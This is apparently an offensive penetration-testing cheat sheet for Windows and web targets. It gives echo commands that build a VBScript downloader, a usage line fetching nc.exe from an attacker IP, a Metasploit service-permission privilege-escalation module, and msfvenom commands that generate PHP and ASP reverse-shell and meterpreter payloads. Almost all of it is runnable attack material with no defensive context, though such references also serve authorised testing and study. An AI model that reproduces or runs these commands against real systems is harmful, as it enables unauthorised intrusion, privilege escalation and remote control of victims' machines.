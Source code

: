     echo strUrl = WScript.Arguments.Item(0) > wget.vbs
    echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
    echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
    echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
    echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
    echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
    echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
    echo Err.Clear >> wget.vbs
    echo Set http = Nothing >> wget.vbs
    echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
    echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
    echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
    echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
    echo http.Open "GET",strURL,False >> wget.vbs
    echo http.Send >> wget.vbs
    echo varByteArray = http.ResponseBody >> wget.vbs
    echo Set http = Nothing >> wget.vbs
    echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
    echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
    echo strData = "" >> wget.vbs
    echo strBuffer = "" >> wget.vbs
    echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
    echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
    echo Next >> wget.vbs
    echo ts.Close >> wget.vbs

Run with:

    $ cscript wget.vbs http://<attacker_ip>/nc.exe nc.exe

## Metasploit

Module to elevate privileges to SYSTEM by creating a service or hijacking existing ones with incorrect permissions

    $ exploit/windows/local/service_permissions

Other scripts

    https://github.com/GDSSecurity/Windows-Exploit-Suggester
    https://github.com/Jean13/Penetration_Testing/blob/master/Privilege_Escalation/windows-privesc-check2.exe

Generate php reverse shell:

    msfvenom -p php/reverse_php LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
    msfvenom -p php/meterpreter/reverse_tcp LHOST=<attacker_ip> -o meterpreter.php
    msfvenom -p generic/shell_reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f php -o shell.php

Others

    $ msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
